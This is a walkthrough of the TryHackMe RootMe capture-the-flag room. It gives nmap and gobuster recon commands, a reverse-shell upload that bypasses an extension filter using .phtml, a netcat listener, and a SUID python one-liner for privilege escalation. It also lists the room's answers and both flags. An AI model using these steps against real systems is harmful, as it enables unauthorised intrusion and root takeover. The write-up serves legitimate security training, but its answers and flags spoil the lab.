 # **TryHackMe RootMe**
*Walkthrough using Kali Linux by Leonidas Karagkounis*

https://tryhackme.com/room/rrootme

## **Reconnaissance**
Start by using nmap to scan for ports and services
```
nmap -sC -sV <target_ip> 
```
1. **Scan the machine, how many ports are open?**  
```
2
```
2. **What version of Apache is running?** 
```
2.4.29
```
3. **What service is running on port 22?**
```
ssh
```
## **Locating directories using Gobuster**
Running gobuster to find hidden directories
```
gobuster dir --url http://<target_ip> --wordlist ~/Downloads/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 24 -x php,bak,zip,txt

```

4. **What is the hidden directory?**  
```
/panel/

```




### **Getting a shell**
## **Compromise the webserver**

Visit <target_ip>/panel/

We can exploit this by uploading a php reverse shell

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- When we try and upload the file we get an error message. Trying different file types we find out we can upload .phtml files. The technique on how to scan is explained on the Vulnversity write up [here](https://github.com/KaragkounisL/TryHackMe-Writeups/blob/main/Vulnversity.md).

- Make a copy as php.reverse-shell.phtml.

- Set up a netcat listener with the command :  
```
nc -nlvp 9001
```

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage 
```
http://<target_ip>/uploads/php-reverse-shell.phtml
```
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Typing 
```
whoami
```
we get the response www-data. The home directory of this user is the var/www folder.
We navigate that folder using 
``` 
cd /var/www
```
and we type 
```
ls -al
```

There we can find the user.txt and we can see its contents by typing

```
cat user.txt
```

4. **user.txt** 
```
THM{y0u_g0t_a_sh3ll}
```

## **Privilege Escalation**
Start by typing 
```
find / -user root -perm /4000 2>/dev/null
```

1. **Search for files with SUID permission, which file is weird?** 
```
/usr/bin/python
```

### **Getting a root shell**

We can visit GTFOBins and search for the python binary

https://gtfobins.github.io/gtfobins/python/

Under the SUID category we find what we are searching for
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### **Geting the root flag**

Executing the command gives us root access which we can confirm by typing 
```
whoami
```
Navigate into the original folder and then into theroot folder by using 
```
cd ../../
cd /root
``` 
Type 
```
ls -al
``` 
You should see the root.txt flag. Check the content with 
```
cat root.txt
```

2. **root.txt**
```
THM{pr1v1l3g3_3sc4l4t10n}
```
